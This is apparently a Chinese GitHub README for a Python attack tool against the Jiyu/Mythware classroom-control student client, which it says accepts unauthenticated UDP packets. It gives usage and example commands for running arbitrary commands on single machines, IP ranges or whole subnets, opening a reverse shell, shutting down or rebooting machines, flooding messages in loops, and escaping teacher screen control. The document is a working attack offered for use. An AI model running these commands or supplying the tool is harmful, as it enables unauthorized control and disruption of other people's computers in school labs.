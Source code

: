 
# 前言
由于太**了，最近又重拾了Mythware的Hack，自学了一点Python，Fork了一份别人的Starter Kit，开始开发。

-------------------------
# 正文

![GitHub stars](https://img.shields.io/github/stars/LightDesignStudio/PowerPro?color=9cf&style=flat-square)[![Github Release](https://img.shields.io/github/v/release/LightDesignStudio/PowerPro?color=091384&label=%E7%89%88%E6%9C%AC&style=flat-square)](https://github.com/LightDesignStudio/PowerPro/releases)![Github DownLoads](https://img.shields.io/github/downloads/LightDesignStudio/PowerPro/total?color=brightgreen&style=flat-square)![Github Activity](https://img.shields.io/github/commit-activity/y/LightDesignStudio/PowerPro?style=flat-square)

+ 因为极域的学生端没有对接收到的udp包做(=・ω・=)身份验证，导致了我们可以构造特定的数据包让学生端来执行，从而实现命令执行攻击机房内上线的任意学生端机器。
## 运行环境
+ Python3





## 使用方法：
```
usage:

    ------------------- Github Repositories -------------------
            https://github.com/LightDesignStudio/PowerPro

       [-h] -ip IP [-p P] [-msg MSG] [-c C] [-l L] [-t T]
       [-e {r,s,g,nc,break,continue}]
       {r,s,g,nc,break,continue} ...

positional arguments:
  {r,s,g,nc,break,continue}
                        -e 参数的详细说明
    r                   reboot 重启
    s                   shutdown 关机
    g                   独立选项，获取当前的ip地址以及学生端监听的端口
    nc                  独立选项，反弹shell的机器需出网，退出可使用命令exit
    break               独立选项，脱离屏幕控制，需要管理员权限
    continue            独立选项，恢复屏幕控制

optional arguments:
  -h, --help            show this help message and exit
  -ip IP                ip 指定目标IP地址
  -p P                  port 指定监听端口，默认端口为4705
  -msg MSG              send_message发送消息 eg: -msg "HelloWord!"
  -c C                  command命令 eg: -c "cmd.exe /c ipconfig"
  -l L                  循环次数，默认为1
  -t T                  循环时间间隔，默认是22秒
  -e {r,s,g,nc,break,continue}
                        Extra Options加载额外的选项 eg：-e r
          
```

## 使用例子

### Tips:
使用 **-ip** 参数指定目标IP时，可以有以下几种指定方式：
- 指定单个IP，如  192.168.80.12
- 指定IP范围，如 192.168.80.10-56
- 指定IP所在C段，如 192.168.80.1/24



### 1.获取内网ip地址及监听的端口
若学生端监听端口不是默认的**4705**，则在后续操作过程中需使用 **-p** 参数指定端口
```
python Jiyu_udp_attack.py -e g
```

### 2.脱离屏幕控制
当前运行权限需为管理员权限，主要用于开启MpsSvc服务
```
python Jiyu_udp_attack.py -e break
```

### 3.恢复屏幕控制
```
python Jiyu_udp_attack.py -e continue
```

### 4.发送消息
若学生端监听端口为**4705**，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -msg "hello,baby!"

```

若学生端监听端口为**4605**，需使用 **-p** 参数指定端口，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p 4605 -msg "hello,baby!"

```

### 5.执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -c calc.exe
```

### 6.反弹shell
反弹shell时，IP只能为某个机器IP，不能批量反弹，而且机器需要出网<br>
因为已经实现批量的任意命令执行，考虑到批量反弹也没啥意义，遂不添加
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e nc
```

### 7.关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e r
```

### 8.循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -msg "hello,baby!" -l 3 -t 50
```





